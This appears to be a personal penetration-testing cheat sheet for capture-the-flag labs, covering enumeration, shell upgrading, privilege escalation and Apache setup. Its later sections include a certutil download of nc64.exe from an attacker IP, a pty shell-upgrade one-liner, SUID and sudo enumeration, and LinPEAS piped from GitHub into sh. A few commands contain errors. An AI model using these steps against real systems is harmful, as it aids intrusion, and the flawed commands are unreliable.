 Virtual space inside terminal:

python3 -m venv env 
source env/bin/activate

Apache server:

sudo systemctl start apache2
sudo systemctl stop apache2
sudo systemctl restart apache2
enable systemctl apache2
sudo nano /etc/apache2/apache2.conf (apache config file to change port and other things)

Gobuster subdomain Enumeration:

gobuster vhost -u example.com -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 4 --append-domain

gobuster dns -d example.com -w /usr/share/seclists/Discovery/DNS/subdomains=top1million-5000.txt -t 10 

Dirsearch directory find:

dirsearch -u http://url.com/ -e*

gobuster dir -u http://url.com/ -w wordlist -t 10

Host file direct entry:

echo "10.10.11.254 demo.skyfall.htb" | sudo tee -a /etc/hosts

Locating scripts in unix:

locate *.nse | grep <servicename> 

FOr stable shell and internal machine to machine download:

python3 -c "import pty;pty.spawn('/bin/bash')"
certutil -urlcache -f http://10.10.14.154:8888/nc64.exe nc64.exe #(windows)
wget http://ipaddress:portnumber/filename #(for both linux and windows)

Privilege Escalation common Commands:

whoami
ls -la
uname -a
cat /proc/version
id 
history
sudo -l
cat /etc/crontab
find / -perm -u=s -type f 2>/dev/null
netstat -tuln
getcap -r / 2>/dev/null
filecap

Linepeas Installation on Target with and without internet

# From github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

